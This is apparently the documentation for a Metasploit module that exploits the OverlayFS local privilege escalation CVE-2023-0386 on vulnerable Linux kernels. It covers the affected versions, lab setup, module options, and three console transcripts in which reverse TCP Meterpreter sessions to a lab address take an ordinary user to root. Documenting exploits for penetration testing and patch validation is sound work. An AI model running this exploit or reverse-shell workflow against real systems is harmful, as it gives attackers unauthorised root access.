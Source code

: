 ## Vulnerable Application

This exploit targets the Linux kernel bug in OverlayFS.

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities
was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount.
This uid mapping bug allows a local user to escalate their privileges on the system.

The vulnerability affects:

    * Linux kernel from (including) 5.11 up to (excluding) 5.15.91 and from (including) 5.16 Up to (excluding) 6.1.9

This module was successfully tested on:

    * Ubuntu kernel version 5.13.0-1021-oem on x64/amd64

### Install

1. Install Ubuntu version 22.04 LTS
2. (Optional) Change kernel version
```
sudo apt update
sudo apt install -y linux-image-5.13.0-1021-oem linux-headers-5.13.0-1021-oem
reboot
```
3. Install the required libraries
```
sudo apt update
sudo apt install -y gcc cmake fuse libfuse-dev libcap-dev
```

## Verification Steps

1. Make an Ubuntu
2. Create a meterpreter or shell payload and upload it to the Ubuntu target
3. Set up a handler for the payload
4. Launch the payload as a regular user on the Ubuntu target and connect the handler
5. Do: `use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc`
6. Do: `run session=<session> lhost=<lhost>`
7. You should get a root

## Options

### COMPILE (required)

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.
The default value is `Auto`

### WritableDir (required)
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios
### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=Auto
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54776) at 2024-09-05 22:48:42 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=Auto

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.a4HSc5ks' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.a4HSc5ks
[+] Deleted /tmp/.Smx0d11hH
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54778) at 2024-09-05 22:49:28 +0900

meterpreter > getuid
Server username: root
```

### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=True
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54710) at 2024-09-05 22:45:40 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=True

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.uKkt1jtoJ' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.uKkt1jtoJ
[+] Deleted /tmp/.oaqii9pj
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54712) at 2024-09-05 22:46:19 +0900

meterpreter > getuid
Server username: root
```

### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=False
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54616) at 2024-09-05 22:36:45 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=False

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.9tZar0/cve-2023-0386' (2215928 bytes) ...
[*] Writing '/tmp/.Z37h3bkJpw' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.Z37h3bkJpw
[+] Deleted /tmp/.9tZar0
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54618) at 2024-09-05 22:37:31 +0900

meterpreter > getuid
Server username: root
```
